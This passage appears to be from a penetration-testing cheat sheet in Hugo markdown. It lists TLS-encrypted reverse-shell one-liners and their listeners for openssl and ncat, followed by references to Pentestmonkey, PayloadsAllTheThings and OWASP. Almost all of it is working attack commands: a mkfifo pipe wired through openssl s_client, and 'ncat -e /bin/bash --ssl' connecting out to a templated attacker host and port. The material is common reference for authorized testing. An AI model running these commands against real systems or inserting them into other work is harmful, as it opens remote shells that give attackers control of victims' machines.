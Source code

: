 #### Listener

```sh
openssl s_server -key key.pem -cert cert.pem -port {{< param "m.LPORT" >}}
```
{{<details "Parameters"></details>}}

#### Reverse Shell

```sh
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -connect {{< param "m.LHOST" >}}:{{< param "m.LPORT" >}} > /tmp/s 2> /dev/null; rm /tmp/s
```

{{<details "Parameters"></details>}}

### Ncat [^ncat]

#### Listener

```sh
ncat -nvlp {{< param "m.LPORT" >}} --ssl
```

#### Reverse Shell

```sh
ncat -nv {{< param "m.LHOST" >}} {{< param "m.LPORT" >}} -e /bin/bash --ssl
```

{{<details "Parameters"></details>}}

[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.
